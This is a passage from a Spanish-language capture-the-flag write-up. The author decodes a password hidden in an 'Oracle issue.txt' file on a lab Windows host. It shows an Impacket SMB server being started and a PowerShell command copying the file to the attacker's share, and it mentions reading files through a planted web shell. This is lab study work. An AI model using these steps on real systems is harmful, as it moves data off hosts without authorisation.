 Jmmm, parece ser una petición de un equipo a Oracle pidiendo un dump de memoria para encontrar algún error. Les responden con un link y una password para descargar lo que sea que tenga el link.

Pero si nos dirigimos al link y colocamos esa contraseña, falla, no la acepta :s Después de un rato intentando descargarlo desde Linux y buscando en internet, decidí movernos el archivo a nuestra máquina y ver que tipo de archivo es, así validamos si es que tiene algún truco, vemos esto:

Nos compartimos una carpeta mediante smb:

```bash
❭ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Y lo transferimos:

```powershell
PS C:\Users\Phineas\Desktop> copy "Oracle issue.txt" \\10.10.14.15\smbFolder\Oracle.txt
```

Y:

```bash
❭ file Oracle.txt 
Oracle.txt: ISO-8859 text, with CRLF line terminators
```

```bash
❭ cat Oracle.txt
...
link password:
�%Hm8646uC$
```

Jmmm, parece que hay un simbolo extraño, si validamos el contenido del archivo en la web (apoyandonos del servidor web, quizas asi interprete algo distinto) vemos otro resultado de contraseña:

```txt
...
link password:
Ł%Hm8646uC$
```

Pero tampoco nos funciona :(

De nuevo dando vueltas, pero ahora jugando con la web-shell para desde ahí leer el contenido del archivo, obtenemos otra contraseña distinta:

```txt
...
link password:
£%Hm8646uC$
```
